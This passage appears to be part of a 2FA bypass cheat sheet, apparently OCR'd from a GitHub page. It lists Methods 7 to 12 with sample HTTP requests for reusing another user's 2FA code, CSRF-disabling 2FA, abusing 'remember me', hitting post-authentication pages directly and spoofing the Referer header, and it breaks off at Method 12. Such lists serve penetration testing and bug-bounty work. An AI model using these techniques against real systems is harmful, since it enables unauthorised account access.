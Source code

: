 Exploit the absence of code integrity validation to check if you can use the same 2FA code for another user's 2FA validation.
```
POST /authenticate
Content-Type: application/json

{
"username": "user123",
"2fa_code": "123456"
}
```
## Method 8: CSRF on 2FA Disabling

Take advantage of the absence of CSRF protection to disable 2FA without the user's knowledge.
```
POST /disable-2fa
Content-Type: application/json

{
"disable": true
}
```
## Method 9: Bypass 2FA using the “Remember me” functionality.

Attempt to bypass 2FA by using the "remember me" functionality, which may store 2FA information in a cookie, session, local storage, or IP address.
```
POST /authenticate
Content-Type: application/json

{
"username": "user123",
"remember_me": true
}
```
## Method 10: Direct Request to Post Authenticated Page:
```
GET /authenticated-api
```
Directly hit an API that comes after 2FA or any authenticated page/API to see if it bypasses 2FA restrictions.

## Method 11: 2FA Refer Check Bypass:

Navigate to an authenticated page and, if unsuccessful, change the Referer header to the 2FA page URL to trick the application into thinking the request came after satisfying 2FA.
```
GET /authenticated-page
Referer: https://example.com/2fa
```
## Method 12: Sequential OTP Number
